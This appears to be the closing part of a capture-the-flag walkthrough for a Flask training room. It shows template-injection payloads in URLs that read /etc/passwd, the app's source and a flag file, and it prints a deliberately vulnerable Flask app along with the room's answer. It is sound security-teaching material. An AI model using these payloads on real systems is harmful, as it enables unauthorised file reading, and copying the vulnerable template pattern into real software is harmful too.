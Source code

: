 ```python
 * Running on http://127.0.0.1:1337
Press CTRL+C to quit
127.0.0.1 - - [17/Feb/2023 13:20:37] "GET / HTTP/1.1" 404 -
127.0.0.1 - - [17/Feb/2023 13:20:46] "GET /vuln HTTP/1.1" 200 -

http://127.0.0.1:1337/vuln?name={{%20person.password%20}}

Hello 123456789!

http://127.0.0.1:1337/vuln?name={{%20get_user_file(%22/etc/passwd%22)%20}}

Hello ['root:x:0:0:root:/root:/usr/bin/zsh\n', 'daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n'
....

http://127.0.0.1:1337/vuln?name={{%20get_user_file(%22/home/witty/Programacion/vulnerable.py%22)%20}}

Hello ['from flask import Flask, request, render_template_string, render_template\n', '\n', 'app = Flask(__name__)\n', '\n', "@app.route('/vuln')\n", 'def hello_ssti():\n', '\tperson = {\'name\':"HackerTHM", \'password\':"123456789"}\n', "\tif request.args.get('name'):\n", "\t\tperson['name'] = request.args.get('name')\n", '\t\n', "\ttemplate = '''<h2>Hello %s!</h2>''' % person['name'] # Problem\n", '\t\n', '\treturn render_template_string(template, person=person)\n', '\n', 'def get_user_file(f_name):\n', '\twith open(f_name) as f:\n', '\t\treturn f.readlines()\n', '\n', "app.jinja_env.globals['get_user_file'] = get_user_file\n", '\n', 'if __name__ == "__main__":\n', '\tapp.run(debug=True)\n']!

http://10.10.251.224:5000/vuln?name={{%20get_user_file(%22/home/flask/flag.txt%22)%20}}

Hello ['THM{flask_1njected}\n']!

```


What's inside **/home/flask/flag.txt** ?

*THM{flask_1njected}*

### References and Sources

![222](https://i.imgur.com/Vbqvn65.png)  

Thank you for completing this room! Make sure to code something in Flask :)  

- Entire room:  
[Flask documentation](https://flask.palletsprojects.com/en/1.1.x/)  
[TutorialSploit](https://www.tutorialspoint.com/flask/index.htm)

- Task 6:  

[Injecting Flask](https://blog.nvisium.com/injecting-flask) [by nVisium](https://blog.nvisium.com/injecting-flask)  

  
- Task 5:

[Flask Uploads](https://pythonhosted.org/Flask-Uploads/)

Answer the questions below

See you in the next room!

 Completed


[[MD2PDF]]